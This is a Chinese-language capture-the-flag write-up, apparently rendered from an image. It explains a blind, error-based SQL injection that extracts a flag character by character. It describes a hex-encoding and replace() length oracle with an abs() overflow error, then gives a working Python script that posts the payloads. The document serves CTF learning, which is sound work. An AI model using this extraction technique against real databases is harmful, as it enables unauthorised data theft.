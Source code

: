 - # 思路
	- 大致思路：
		- 将flag转换成一个只有数字的字符串，然后猜测其的开头，就这样一个字符一个字符地猜测，直到猜出所有的字符
	- 细节：
		- 猜测一个字符串的开头
		  id:: 63f78c53-528a-4b9f-8b54-9e254a8c7636
			- 将猜测的开头从字符串中去掉，如果成功去除则其长度必然变化，检测其长度即可
		- 将数字转为只有阿拉伯数字的字符串
		  id:: 63f78ccb-b747-4493-b196-b40579fc15f9
			- 用符号`||`拼接两个数字即可转为字符串
		- 将任意字符串转为只有阿拉伯数字的字符串
		  id:: 63f78d57-1656-4440-acc0-67f28785b89a
			- 经过两次`hex`运算即可
		- 用后两个技巧配合第一个技巧即可猜测任意字符串的开头
		- 判断两个数字是否相等
			- `abs(case({})when({})then(1)else(0x8000000000000000)end)`
			- 如果相等则不会出错，否则必然出错
- # 脚本
	- ```python
	  def to_hex(s):
	      return "".join([hex(ord(c))[2:].upper() for c in s])
	  
	  known = "flag{"
	  while True:
	      for i in range(32, 128):
	          # 我们先猜测flag的开头是guess
	          guess = known + chr(i)
	          payload = "(select(flag)from(flag))"
	          # 然后我们将flag和guess转为一个只有阿拉伯数字的字符串
	          payload = "hex(hex({}))".format(payload)
	          guess = to_hex(to_hex(guess))
	          # 再然后我们将flag开头的guess替换为"00"
	          payload = "replace({},({}),0||0)".format(payload, "||".join(list(guess)))
	          # 如果替换成功，flag的长度应为如下所示
	          guess_length = 168 - len(guess) + 2
	          # 获取替换后flag的长度
	          payload = "length({})".format(payload)
	          # 判断长度是否真的等于我们猜测的长度，如果等于那么说明替换成功，也就是说我们猜测的是正确的
	          payload = "114514||abs(case({})when({})then(1)else(0x8000000000000000)end)".format(payload, guess_length)
	          # 提交
	          r = requests.post(url, data = {
	              "id": payload
	          })
	          time.sleep(0.2)
	          # 如果替换成功，则不会出错
	          if "error" not in r.text:
	              known += chr(i)
	              print(known)
	              break
	      else:
	          print("Done")
	          print(known)
	          break
	  ```